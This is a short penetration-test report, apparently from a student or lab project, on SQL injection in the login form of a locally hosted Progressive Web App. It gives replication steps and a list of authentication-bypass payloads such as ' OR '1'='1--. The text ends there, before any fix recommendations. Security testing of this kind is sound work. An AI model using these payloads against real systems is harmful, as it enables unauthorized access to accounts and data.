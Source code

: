 # Hacker's Report: Breaking into the Client’s PWA

This document outlines the security vulnerabilities identified in the client’s Progressive Web App (PWA). It provides detailed replication steps, explanations of why each vulnerability exists, and recommendations for fixes. The testing methodologies used include **blackbox**, **whitebox**, and **greybox testing**, along with **Google Lighthouse** audits.

---

## **Objectives**
- Identify security weaknesses in the PWA.
- Simulate real-world attacks to demonstrate vulnerabilities.
- Provide actionable recommendations to secure the system.

---

## **Vulnerabilities and Replication Steps**

### **1. SQL Injection Demo**

#### **Description**
The login form allows SQL injection through both username and password fields, demonstrating multiple attack vectors.

#### **Steps to Replicate**

##### Method 1: Username Injection
1. Navigate to the Login Page: `http://127.0.0.1:5000/login`
2. Enter in the **Username** field:
   ```sql
   admin' OR '1'='1
   ```
3. Enter any password
4. Click Login

##### Method 2: Password Injection
1. Navigate to the Login Page: `http://127.0.0.1:5000/login`
2. Enter any username
3. Enter in the **Password** field:
   ```sql
   ' OR '1'='1--
   ```
4. Click Login

##### SQL Injection Payloads or 1=1

or 1=1--

or 1=1#

or 1=1/*
